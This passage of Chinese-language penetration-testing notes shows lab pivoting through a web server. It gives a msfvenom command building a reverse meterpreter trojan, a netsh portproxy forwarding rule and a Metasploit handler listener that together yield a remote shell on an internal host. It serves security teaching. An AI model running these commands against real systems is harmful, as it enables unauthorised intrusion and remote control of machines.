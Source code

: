 ### 环境拓扑图

Kali通过将Web服务器作为一个跳板, 将生成的反向木马发送至内网主机, 内网主机运行木马后会主动连接Web服务器, Web服务器通过端口转发功能将内网主机的连接数据转发至kali

![image-20221024105351598](隧道应用/image-20221024105351598.png)

​	

### 操作步骤

在kali生成一个反向木马用于让内网主机主动连接Web服务器的5555端口, 然后将此木马放到内网主机中去

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.52.143 lport=5555 -f exe >reverse.exe
```

![image-20221023234859524](隧道应用/image-20221023234859524.png)



在Web服务器设置端口转发, 将本机5555端口接收到的数据转发至kali的5555端口

```
netsh interface portproxy add v4tov4 listenport=5555 connectport=5555 connectaddress=192.168.47.134
```

![image-20221024103853543](隧道应用/image-20221024103853543.png)	



在kali的MSF创建监听,监听本机的5555端口

```
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.47.134
lhost => 192.168.47.134
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```



在内网主机运行木马后, 随后会在MSF返回内网主机的meterpreter会话

![image-20221024104154551](隧道应用/image-20221024104154551.png)



# 二、CS连接内网主机

## 正向连接

### 环境拓扑图
